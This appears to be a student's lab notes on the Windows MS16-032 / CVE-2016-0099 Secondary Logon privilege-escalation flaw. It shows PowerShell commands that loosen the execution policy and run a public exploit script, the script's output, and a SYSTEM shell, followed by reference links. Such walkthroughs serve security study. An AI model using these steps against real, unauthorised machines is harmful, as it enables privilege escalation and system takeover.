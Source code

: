 # CVE-2016-0099 - MS16-032 - Windows - Secondary Logon Elevation of Privilege Vulnerability

## Exploit

```powershell
PS C:\Users\htb-student> Set-ExecutionPolicy -ExecutionPolicy unrestricted -Scope process

Execution Policy Change
The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose
you to the security risks described in the about_Execution_Policies help topic. Do you want to change the execution
policy?
[Y] Yes  [N] No  [S] Suspend  [?] Help (default is "Y"): y

PS C:\Users\htb-student> Import-Module C:\Tools\Invoke-MS16-032.ps1

PS C:\Users\htb-student> Invoke-MS16-032
         __ __ ___ ___   ___     ___ ___ ___
        |  V  |  _|_  | |  _|___|   |_  |_  |
        |     |_  |_| |_| . |___| | |_  |  _|
        |_|_|_|___|_____|___|   |___|___|___|

                       [by b33f -> @FuzzySec]

[?] Operating system core count: 6
[>] Duplicating CreateProcessWithLogonW handle
[?] Done, using thread handle: 2272

[*] Sniffing out privileged impersonation token..

[?] Thread belongs to: svchost
[+] Thread suspended
[>] Wiping current impersonation token
[>] Building SYSTEM impersonation token
[?] Success, open SYSTEM token handle: 2268
[+] Resuming thread..

[*] Sniffing out SYSTEM shell..

[>] Duplicating SYSTEM token
[>] Starting token race
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!
```

```cmd
C:\Users\htb-student>whoami
nt authority\system
```

## Link

- [ExploitDB - PoC - CVE-2016-0099](https://www.exploit-db.com/exploits/39719)
- [Microsoft - MS16-032](https://learn.microsoft.com/en-us/security-updates/SecurityBulletins/2016/ms16-032)
- [Github - CVEDB - CVE-2016-0099](https://github.com/CVEDB/Poc-Git/blob/fe80d49bed661ba5913e1629e24b537293aec687/2016/CVE-2016-0099.md)

